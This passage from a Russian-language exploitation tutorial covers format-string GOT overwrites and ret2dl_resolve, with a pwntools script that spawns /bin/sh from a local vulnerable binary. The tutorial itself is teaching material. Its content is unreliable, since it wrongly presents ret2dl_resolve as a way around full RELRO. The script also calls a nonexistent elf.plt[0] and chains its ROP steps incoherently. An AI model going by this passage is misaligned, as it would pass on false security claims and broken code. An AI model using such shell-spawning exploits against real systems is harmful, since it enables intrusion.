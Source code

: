 В этом коде функция `fmtstr_payload` берёт на себя сложность разбивки 64‑битного адреса на части и вычисления необходимых значений для `%hn`. После отправки такого payload‑а любая последующая строка вида `puts("…")` будет фактически вызовом `system("…")`, а значит команда `"/bin/sh"` приведёт к появлению шелла.

## 6. Full RELRO: ret2dl_resolve и fake structures

Когда в бинаре включён **full RELRO**, сегмент GOT помечается как read‑only сразу после загрузки, и простая перезапись записей через `%n` уже не работает. В таких случаях на помощь приходит трюк **ret2dl_resolve**, который заставляет динамический загрузчик (`ld‑linux.so`) самому «дописать» нужный адрес в GOT, используя механизм ленивой линковки через PLT[0].

Вся идея складывается из трёх этапов. Сначала мы резервируем в памяти процесса место для своих «фейковых» структур — одной или нескольких записей типа `Elf64_Rela` (релокация) и соответствующих символов `Elf64_Sym`, а также строки с именем функции (`"system\0"`). Эти структуры нужно расположить так, чтобы динамический загрузчик считал их настоящими записями в таблице `.rela.plt`.

Затем мы формируем стандартный вызов через PLT, но вместо адреса нужного символа указываем смещение на нашу фейковую `Elf64_Rela`. Таким образом, поток выполнения попадёт не в «обычный» PLT-заполнитель, а в PLT[0], который обрабатывает релокацию: он читает из `.rela.plt` запись по индексу, извлекает из неё смещение в GOT и добавляет туда значение, вычисленное по нашим данным. После этого управление возвращается уже в PLT‑entry той функции, чей адрес мы подменили, и она выполняется с новыми правами.

Ниже — пример эксплойта на Python с pwntools и `Ret2dlresolvePayload`, который инкапсулирует всю логику:

```python
from pwn import *

# Загружаем ELF‑образ и отключаем проверку секюрити‑флагов
elf = ELF('./vuln', checksec=False)

# Строим ROP-цепочку и payload для ret2dl_resolve
rop = ROP(elf)
dl = Ret2dlresolvePayload(
    elf,                 # ELF‑объект
    symbol='system',     # имя функции, которую хотим вызвать
    args=['/bin/sh']     # аргументы для system()
)

# ROP-цепочка:
# 1) вызываем read, чтобы записать наши fake‑структуры в .bss
# 2) прыгаем в PLT[0] с индексом dl.reloc_index
rop.call(elf.plt['read'], [0, dl.data_addr, len(dl.data)])
rop.raw(dl.payload)               # здесь лежат наши Elf64_Rela, Elf64_Sym, строка "system"
rop.call(elf.plt[0], [dl.reloc_addr])  # PLT[0] + смещение на нашу релокацию

# Собираем окончательный payload и отправляем в процесс
offset =  cyclic_find('kaaa')      # например, смещение до return‑address
payload = flat(
    b'A' * offset,
    rop.chain()
)

p = process(elf.path)
p.send(payload)
p.send(dl.data)                    # данные для read()
p.interactive()
```

